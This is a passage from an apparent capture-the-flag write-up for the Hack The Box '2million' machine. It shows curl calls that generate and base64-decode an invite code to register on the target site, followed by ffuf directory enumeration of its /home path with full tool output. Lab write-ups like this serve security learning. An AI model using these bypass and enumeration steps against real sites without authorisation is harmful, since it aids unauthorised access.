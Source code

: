 ![cyberchef rot13](Images/cyberchef_rot13.png)<br><br>

We need to make a POST request to that api endpoint, and we can easily accomplish that using curl:

```console
toastydz@parrot$ curl -X POST http://2million.htb/api/v1/invite/generate
{"0": 200,"success":1,"data":{"code":"UzBGVVQtN0NWWjAtSTBSSkEtVEtKTUs=", "format":"encoded"}}}
```

The code we get back appears to be base64 encoded and we can quickly decode using command line again:
```console
toastydz@parrot$ echo -n 'UzBGVVQtN0NWWjAtSTBSSkEtVEtKTUs=' | base64 -d
S0FUT-7CVZ0-I0RJA-TKJMK
```
Now we finish up registering and we are a legit user on the site now! (I forgot to take screenshots during the registering process) We have made it to a homepage

### Homepage Enumeration

![homepage](Images/homepage.png)<br><br>

Let's poke around a bit and see what we can find. Just clicking on some of the sidebars and going through I find 3 new sub directories:
	access
	rules
	changelog

I don't immediately see a path to go from here. There doesn't seem to be any submission areas or redirects/buttons to click on. We can run ffuf again, this time using /home:<br>
```console
toastydz@parrot$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://2million.htb/home/FUZZ -mc all -fs 162

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/home/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 162
________________________________________________

access                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 36ms]
changelog               [Status: 302, Size: 1, Words: 1, Lines: 1, Duration: 49ms]
rules                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]

```
